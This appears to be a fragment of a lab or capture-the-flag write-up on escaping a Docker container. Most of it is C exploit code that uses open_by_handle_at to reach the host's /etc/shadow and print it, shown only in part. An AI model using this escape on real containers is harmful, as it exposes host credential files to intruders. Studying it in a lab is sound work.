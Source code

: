 ```c
	if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
		die("[-] open");

	if (find_handle(fd1, "/etc/shadow", &root_h, &h) <= 0)
		die("[-] Cannot find valid handle!");

	fprintf(stderr, "[!] Got a final handle!\n");
	dump_handle(&h);

	if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
		die("[-] open_by_handle");

	memset(buf, 0, sizeof(buf));
	if (read(fd2, buf, sizeof(buf) - 1) < 0)
		die("[-] read");

	fprintf(stderr, "[!] Win! /etc/shadow output follows:\n%s\n", buf);

	close(fd2); close(fd1);

	return 0;
}



```

`docker breakout` as a search-engine dork term

There is also no `gcc`, `clang`
```
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>
```

Given the days left for this box some debugging in the clumsy way  is in order; a better way would be meticulously going thorough each dependencies to find the ones. Another lazy alternative would be  exfilitrating the entire lib directory
![](manuallyandclumslyblunderingdebuging.png)


![](sososososSOthisversionwilldo.png)
